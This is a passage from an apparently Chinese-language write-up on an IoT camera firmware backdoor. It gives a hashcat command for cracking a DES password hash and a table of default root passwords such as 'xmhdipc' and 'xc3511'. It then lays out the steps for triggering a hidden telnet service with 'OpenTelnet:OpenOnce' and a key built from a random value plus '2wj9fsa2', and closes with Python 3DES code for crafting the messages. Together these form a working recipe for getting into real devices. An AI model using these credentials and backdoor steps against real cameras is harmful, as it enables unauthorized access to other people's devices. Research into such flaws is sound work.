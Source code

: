 由于是des加密，猜测密码长度较短，可以使用`hackcat`爆破

```bash
hashcat64.exe -a3 -m1500 absxcfbgXtb3o -1?l?d ?1?1?1?1?1?1
```

![](https://i.loli.net/2021/08/03/RAvDNTmOjbqQVGK.png)

有大佬给出爆破出的列表，总有一个正确的

| Login  | Password  |
| ------ | --------- |
| `root` | `xmhdipc` |
| `root` | `klv123`  |
| `root` | `xc3511`  |
| `root` | `123456`  |
| `root` | `jvbzd`   |
| `root` | `hi3518`  |

#### 后门使用

1. 发送`OpenTelnet:OpenOnce`字符串到服务端，接受到`randNum:随机值`（如果发送后无响应则可能已经开启服务）。
2. 可以构造key为：`随机值+2wj9fsa2`
3. 发送`randNum:`加上随机值的3DES加密值
4. 发送`CMD:`加上`Telnet:OpenOnce`的3DES的加密值

#### 加解密代码

```python
from Crypto.Cipher import DES3 
import codecs
import base64

class EncryptDate:
    def __init__(self, key):
        self.key = key  # 初始化密钥
        self.length = DES3.block_size  # 初始化数据块大小
        self.aes = DES3.new(self.key, DES3.MODE_CBC, b'12345678')  # 初始化AES,ECB模式的实例
        # 截断函数，去除填充的字符
        self.unpad = lambda date: date[0:-ord(date[-1])]      

    def pad(self, text):
        """
        #填充函数，使被加密数据的字节码长度是block_size的整数倍 
        """
        count = len(text.encode('utf-8'))
        add = self.length - (count % self.length)
        entext = text + (chr(add) * add)
        return entext

    def encrypt(self, encrData):  # 加密函数
        res = self.aes.encrypt(self.pad(encrData).encode("utf8"))
        # msg = str(base64.b64encode(res), encoding="utf8")
        msg =  res.hex()
        return msg

    def decrypt(self, decrData):  # 解密函数
        # res = base64.decodebytes(decrData.encode("utf8"))
        res = bytes.fromhex(decrData)
        msg = self.aes.decrypt(res).decode("utf8")
        return self.unpad(msg)

```